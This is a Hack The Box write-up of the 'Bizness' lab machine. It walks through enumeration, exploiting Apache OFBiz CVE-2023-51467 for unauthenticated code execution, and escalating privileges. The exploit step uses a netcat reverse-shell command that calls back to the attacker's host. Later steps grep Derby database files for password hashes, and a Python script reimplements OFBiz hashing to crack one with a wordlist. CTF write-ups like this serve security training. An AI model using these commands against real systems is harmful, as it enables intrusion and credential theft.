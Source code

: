 ![HTB - Bizness](/HTB/Bizness/box_logo.png)

# HTB Bizness - Writeup

[HTB website](https://app.hackthebox.com/machines/582)

<br>

## Enumeration

---

We start as usual: nmap. While waiting for the nmap results, I check the webpage because boxes usually have a webpage. The IP redirects me to `bizness.htb` so I add this to `/etc/hosts`. Nmap results:

![nmap results](/HTB/Bizness/nmap_results.JPG)

Since the box has a webpage, I start the directory enumeration as well (-k because the website has a self-signed certificate, -b302 because there is always a redirect to the home page even though the url does not exist): 

~~~bash
gobuster dir -u https://bizness.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k -b 302,404
~~~

After a short while, a directory is found: `/control`:

![control500](/HTB/Bizness/control_500.JPG)

<br>

## Initial Foothold

---

This gives the information of the framework used for this website: Apache Ofbiz. The initial instinct is to research about well-known or recent vulnerabilities of this framework. After a quick Google search, we find a significant and very recent vulnerability: `CVE-2023-51467`. It says `Unauthenticated Remote Code Execution` so it is a fit for our case as well.

Finding a PoC exploit for this vulnerability was not easy. There were scripts that checks if the website is vulnerable, but they wouldn't work as exploits. After quite some research and trials, I found one that gives good results: [https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit](https://www.vicarius.io/vsociety/posts/apache-ofbiz-authentication-bypass-vulnerability-cve-2023-49070-and-cve-2023-51467-exploit)

(This script had a java error, but downloading ysoserial-all.jar from the internet fixed the error.)

First, I tried my payload as usual bash reverse shell, but it didn't work. After some tries of payloads, this one worked:

~~~bash
python3 exploit.py --url https://bizness.htb --cmd "nc <HTB_SELF_IP> 7777 -e /bin/bash"
~~~

<br>

## Privilege Escalation

---

Despite the "easy" tag of the box, privilege escalation was not easy at all. I tried numerous manual techniques with no results. I tried linpeas.sh with some interesting results. Before getting to the solution, here are some rabbit holes:

- A folder called "l" inside the home directory. It had a file called "python3" which had "set_uid=eip" capabilities. Later, it turned out that the folder was a leftover from QA testing, and HTB updated the box deleting that file.
- Writable "gradlew" script  inside the web framework folder, which were called by the system services on startup.
- SSH private and public keys for persistence. I tried cracking the passphrase of the private key with no results.

### The eventual solution:

linpeas.sh gave a clue about this but it took time for me to notice it among other hundreds of results. The web framework had a database. A derby database. I couldn't log in to the database but there were database files which might have valuable info. 

There were a quite number of files in /opt/ofbiz/runtime/data/derby/ofbiz/seg0, so checking one by one would take a lot of time. I tried a lot of regexes until I optimized to the following one: 

~~~bash
grep -ari -Po ".{0,40}password.{0,40}" .
~~~

The results of this command includes a hash:

~~~d
$SHA$d$uP0_QaVBpDWFeo8-dRzDqRwXQ2I
~~~

We can understand that it is a SHA1 hash and it has a salt "d". But the rest is not in a usual format. Moreover, in hashing process, passwords and salts can be used together in a lot of different ways. To be able to crack this hash, we need to understand how it was hashed. We need to copy the same process that is followed by Ofbiz framework to our wordlist (it is an open-source project so it should be easy to find out what kind of algorithm they use).

### Hashing our Rockyou

First of all, we need to find their hashing algorithm. From their documentation ([link](https://nightlies.apache.org/ofbiz/stable/javadoc/org/apache/ofbiz/base/crypto/HashCrypt.html)), it is possible to identify the name of the algorithms. But the source code is not on their website directly. So, I went for the source code inside the box. The path is the same as in the website. This is the base hashing algorithm:

![ofbiz hashing](/HTB/Bizness/ofbiz_hashing.JPG)

I rewrote the hashing in Python to be able to hash the words in our wordlist and find the password:

```python
import hashlib
import base64


def ofbiz_hash(passwd):
    newHash = hashlib.new("SHA1")
    newHash.update("d".encode('utf-8'))
    newHash.update(passwd.encode('utf-8'))
    result = newHash.digest()
    return base64.urlsafe_b64encode(result).decode('utf-8').replace('+', '.')[:-1]


wordlist = "rockyou.txt"
with open(wordlist, 'r', encoding='latin-1') as passwords:
    print(f"Wordlist loaded: {wordlist}")
    for password in passwords:
        if ofbiz_hash(password) == "uP0_QaVBpDWFeo8-dRzDqRwXQ2I":
            print(f"Password found: {password}")
            break
```

With the password found, we can:

~~~bash
su root
cat /root/root.txt
~~~
